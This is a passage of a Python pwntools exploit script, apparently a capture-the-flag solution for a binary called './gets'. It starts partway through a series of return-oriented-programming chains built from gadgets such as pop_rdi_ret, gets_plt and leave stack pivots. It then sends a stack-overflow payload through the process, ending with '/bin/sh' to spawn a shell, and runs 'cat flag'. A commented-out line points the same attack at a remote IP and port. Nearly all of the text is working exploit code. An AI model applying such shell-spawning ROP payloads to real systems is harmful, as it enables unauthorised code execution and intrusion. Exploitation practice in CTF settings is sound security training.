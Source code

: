 ```python
]

p5=[
rbx_rbp_r12_r13_r14_r15_ret,
]

p6=[
pop_rdi_ret,addr4,gets_plt,
pop_rbp_ret,0x601378-8,leave
]

p7=[
pop_rsi_r15_ret,off,0,
add_ebx_esi,csu_init,
pop_rbp_ret,addr5-8,leave
]

p8=[
pop_rdi_ret,aim2-0x8,gets_plt,
pop_rdi_ret,aim2+6*8,gets_plt,
pop_rbp_ret,aim2-0x8-0x8,leave
]

p9=[
rbx_rbp_r12_r13_r14_r15_ret,
]

p10=[
pop_rdi_ret,0x601398+4,gets_plt,
pop_rdi_ret,0x601269,gets_plt,
pop_rbp_ret,0x601398+4-0x8,leave
]

p11=[
csu_init,
pop_rdi_ret,0x601269,
pop_rbp_ret,0x601370-0x8,leave
]

p=process("./gets")
#p=remote("10.21.13.69",10010)
p.sendline("\x00"*24+
"".join(map(p64,p0))+"\n"+
"".join(map(p64,p1))+'\n'+
"".join(map(p64,p2))+'\n'+
"".join(map(p64,p3))+'\n'+
"".join(map(p64,p8))+'\n'+
"".join(map(p64,p4))+'\n'+
"".join(map(p64,p5))+'\n'+
"".join(map(p64,p6))+"\n"+
"".join(map(p64,p7))+'\n'+
"".join(map(p64,p9))[:-1]+'\n'+
"".join(map(p64,p10))+'\n'+
"".join(map(p64,p11))+'\n'+
'/bin/sh'+'\n'
)

p.sendline("cat flag")
log.warning(p.read())
p.close()
```

